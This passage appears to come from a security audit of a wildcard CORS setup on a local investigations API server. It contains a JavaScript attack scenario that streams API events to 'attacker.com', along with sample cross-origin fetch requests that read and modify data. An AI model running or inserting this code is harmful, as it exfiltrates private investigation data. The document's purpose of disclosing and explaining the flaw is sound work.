 ### Scenario 5: Real-Time Data Streaming Attack
```javascript
// Establish persistent connection to stream data
const eventSource = new EventSource('http://127.0.0.1:8081/api/v1/investigations/stream');
eventSource.onmessage = function(event) {
  // Real-time investigation updates sent to attacker
  fetch('https://attacker.com/live-feed', {
    method: 'POST',
    body: event.data
  });
};
```

## Business Impact

- **Complete Data Breach**: Any website can steal all investigation data
- **Evidence Tampering**: Malicious sites can modify/delete evidence
- **User Privacy Violation**: Cross-origin attacks compromise user privacy
- **Compliance Failure**: Violates data protection regulations
- **Supply Chain Attacks**: Compromised websites can attack users
- **Persistent Compromise**: XSS allows long-term system access

## Detailed CORS Security Analysis

### Current Vulnerable Configuration
```rust
// WASM Mini Server - CATASTROPHICALLY INSECURE
headers.set("Access-Control-Allow-Origin", "*")?;
// Allows: https://evil.com, https://malware.site, ANY website

headers.set("Access-Control-Allow-Methods", "GET, POST, OPTIONS")?;
// Allows: Data theft (GET) and modification (POST)

headers.set("Access-Control-Allow-Headers", "Origin, Content-Type, Accept")?;
// Allows: Custom headers for authentication bypass
```

### Missing Security Headers
```rust
// MISSING: Essential security headers
// "Access-Control-Allow-Credentials": "false" // Prevents credential attacks
// "Access-Control-Max-Age": "86400"          // Limits preflight caching
// "Access-Control-Expose-Headers": "X-Custom" // Controls exposed headers
// "Strict-Transport-Security": "max-age=31536000" // HSTS
// "X-Content-Type-Options": "nosniff"        // MIME type protection
// "X-Frame-Options": "DENY"                  // Clickjacking protection
```

### Vulnerable Request Patterns
```javascript
// These requests are all ALLOWED by current CORS policy:

// 1. Data theft from any origin
fetch('http://localhost:8081/api/v1/investigations')

// 2. Cross-origin modifications
fetch('http://localhost:8081/api/v1/investigations', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: '{"title":"malicious"}'
})

// 3. Credential-bearing requests
```